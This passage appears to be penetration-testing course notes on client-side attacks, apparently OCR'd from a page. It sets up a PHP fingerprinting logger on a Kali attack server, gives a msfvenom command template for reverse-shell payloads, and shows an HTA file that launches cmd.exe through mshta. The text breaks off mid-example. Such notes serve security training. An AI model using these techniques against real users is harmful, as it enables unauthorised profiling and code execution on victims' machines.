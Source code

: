 ```php
<?php
$data = "Client IP Address: " . $_SERVER['REMOTE_ADDR'] . "\n";
$data .= file_get_contents('php://input');
$data .= "---------------------------------\n\n";
file_put_contents('/var/www/html/fp/fingerprint.txt', print_r($data, true), FILE_APPEND | LOCK_EX);
?>
```
In order for this code to work, we need to allow the Apache www-data user to write to the fp directory:
```sh
kali@kali:/var/www/html$ sudo chown www-data:www-data fp
```
Then use a web server to host this code:
```sh
sudo systemctl start apache2
```
Then rdesktop on the win machine, open a browser, and navigate to `http://<kali_attack_server_IP>/fp/fingerprint.html`.

You can later check the User agent using [Parse a User Agent](https://developers.whatismybrowser.com/useragents/parse/).

## Msfvenom
**MsfVenom** is a Metasploit standalone payload generator which is also a replacement for msfpayload and msfencode.
```sh
msfvenom -p <payload_type> -lhost <listener's_IP> -lport <listener_port> -f <filetype> -o <output>
```
Two major types of Payloads:
- **Stager**: They are commonly identified by second (`/`) such as `windows/meterpreter/reverse_tcp`
- **Stageless**: The use of _ instead of the second `/` in the payload name such as `windows/meterpreter_reverse_tcp`  

Listing available formats
```sh
msfvenom --list formats
```

## Leveraging HTML Applications
If a file is created with the extension of **`.hta`** instead of `.html`, Internet Explorer will automatically interpret it as a HTML Application and offer the ability to execute it using the **`mshta.exe`** program.
The purpose of HTML Applications is to allow arbitrary execution of applications directly from Internet Explorer, rather than downloading and manually running an executable.
### HTML Applications
Similar to an HTML page, a typical HTML Application includes html, body, and script tags followed by JavaScript or VBScript code. 
HTA file to open `cmd.exe`:
```hta
<html>
<head>

<script>

  var c= 'cmd.exe'
  new ActiveXObject('WScript.Shell').Run(c);
  
</script>

</head>
<body>

<script>
```